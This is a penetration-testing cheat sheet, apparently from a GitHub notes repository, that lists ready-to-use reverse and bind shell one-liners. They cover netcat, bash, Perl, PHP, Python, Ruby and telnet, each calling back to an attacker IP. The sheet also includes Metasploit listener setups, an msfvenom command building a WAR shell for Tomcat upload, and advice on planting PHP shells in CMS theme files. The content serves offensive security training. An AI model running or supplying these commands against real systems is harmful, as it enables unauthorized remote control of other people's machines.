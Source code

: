 ### Reverse Shells
#### Listensers
### Top Resource

- https://www.revshells.com/

```
nc -nlvp 1234
```
- Always set up a netcat listener before executing a bash reverse shell

- You can also use multi handler from metasploit to catch incoming reverse shells
```
msfconsole
use exploit /multi/handler
set LHOST 172.16.6.1
set LPORT 1234
run
```
#### Netcat Reverse Shell
```
nc 172.16.6.1 1234 -e /bin/sh
```
- Standard netcat reverse shell (only works with some versions of nc)

#### Bash Reverse Shells
```
bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```
- Basic bash reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f
```
- Another bash reverse shell

#### Perl Reverse Shell
```
perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP Reverse Shell
```
php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Standard PHP reverse shell typically used for injection on the terminal enviroment or into a web application
```
$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");
```
- This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)

#### Python Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Troubleshooting lessons
````
which python
which python3
/usr/bin/python
/usr/bin/python3
````
- Try the absolute paths when `python3` or `python` are not working to trigger your reverse shell
- Standard python reverse shell

#### Ruby Reverse Shell
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Linux ruby reverse shell
```
ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Windows ruby reverse shell

#### War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war
```
- This will generate a war file for upload on the Tomcat CMS. Once uploaded click on the shell option to activate it.
- Catch this shell with multi/handler
```
msfconsole
use exploit /multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.16.6.1
set LPORT 1234
run
```

#### Reverse shell over the Telnet Protocol
```
mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a
```
- This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh

### Bind Shells
#### Netcat Bind Shell
```
nc -nlvp 1234 -e /bin/sh
```
- This is executed on the target box and waits for an incoming connection
```
nc [target box ip] 1234
```
- This is executed on your attack box to connect to the listener on the target






